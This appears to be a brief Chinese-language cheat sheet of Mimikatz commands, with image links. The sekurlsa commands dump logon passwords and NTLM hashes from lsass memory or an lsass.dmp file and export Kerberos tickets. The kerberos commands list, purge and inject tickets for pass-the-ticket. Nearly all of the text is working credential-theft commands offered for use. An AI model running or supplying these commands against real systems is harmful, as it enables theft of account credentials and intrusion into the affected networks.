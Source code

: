 [![](assets/1709014237-18de01fee1442f29b589b3f2dc33ed51.png)](https://cdn.nlark.com/yuque/0/2023/png/12710625/1696681438644-ceb8b213-f10c-4ed6-b0b3-7b15608cb47e.png#averageHue=%23121212&clientId=ud3001085-0583-4&from=paste&height=273&id=ua28ef9f2&originHeight=545&originWidth=951&originalType=binary&ratio=2&rotation=0&showTitle=false&size=169002&status=done&style=none&taskId=ua0a141e9-7b70-4423-b8ea-7030434d6ad&title=&width=475.5)  
`sekurlsa模块`

```bash
sekurlsa::logonpasswords

抓取用户 NTLM 哈希
sekurlsa::msv

加载 dmp 文件，并导出其中的明文密码
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords full

导出 lsass.exe 进程中所有的票据
sekurlsa::tickets /export
```

`kerberos模块` - 提取票据

```bash
列出系统中的票据
kerberos::list
kerberos::tgt

清除系统中的票据
kerberos::purge

导入票据到系统中
kerberos::ptc 票据路径
```
